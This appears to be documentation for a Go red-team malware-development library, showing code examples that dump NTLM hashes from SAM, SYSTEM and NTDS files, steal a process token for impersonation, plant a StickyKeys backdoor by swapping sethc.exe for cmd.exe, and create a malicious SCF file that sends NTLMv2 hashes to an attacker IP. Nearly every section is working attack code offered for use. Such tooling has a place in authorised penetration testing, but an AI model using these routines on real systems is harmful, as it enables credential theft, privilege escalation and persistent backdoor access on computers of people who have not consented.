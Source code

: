 # Red Team Examples

## Dump system hashes (different ways)

- This functions use [gosecretsdump](https://github.com/C-Sto/gosecretsdump) which is really fast and can NTLM dump hashes with a lot of config options

```go
package main

import (
  "fmt"

  "github.com/D3Ext/maldev/redteam"
)

func main(){
  // First way (using SAM and SYSTEM)
  hashes1, err := redteam.DumpSamHashes("C:\\path\\to\\system", "C:\\path\\to\\sam")
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(hashes1)

  // Second way (using NTDS and SYSTEM)
  hashes2, err := redteam.DumpNtdsHashes("C:\\path\\to\\system", "C:\\path\\to\\ntds")
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(hashes2)

  // Third way (automated mode)
  hashes3, err := redteam.AutoHashDump()
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(hashes3)

}
```

## Steal process token (impersonation)

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/redteam"
)

func main(){

  pid := 1234 // Set PID to steal
  token, err := redteam.Impersonate(pid) // Returns error if user doesn't have privileges
  if err != nil {
    log.Fatal(err)
  }
}
```

## StickyKeys backdoor

- This function replaces the ***sethc.exe*** binary with a ***cmd.exe*** so when you press **SHIFT** 3 times it launches a terminal as Administrator. It also creates a backup of the sethc.exe binary so you also can use the **RevertStickyKeys()**

```go
package main

import (
  "fmt"
  "log"

  "github.com/D3Ext/maldev/redteam"
)

func main(){
  err := redteam.StickyKeys()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("Backdoor added successfully!")

  err = redteam.RevertStickyKeys()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("Backdoor reverted!")
}
```

## Create malicious SCF

- With this function you can create a malicious SCF file to obtain ***NTLMv2*** hashes once a user opens the SMB share

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/redteam"
)

func main(){
  path := "C:\\Path\\To\\Smb\\Share\\malicious.scf" // Path with filename where SCF file will be stored
  ip := "192.168.1.37" // Attacker ip, if a responder is running you will receive NTLMv2 hashes

  err := redteam.CreateScf(path, ip)
  if err != nil {
    log.Fatal(err)
  }
}
```




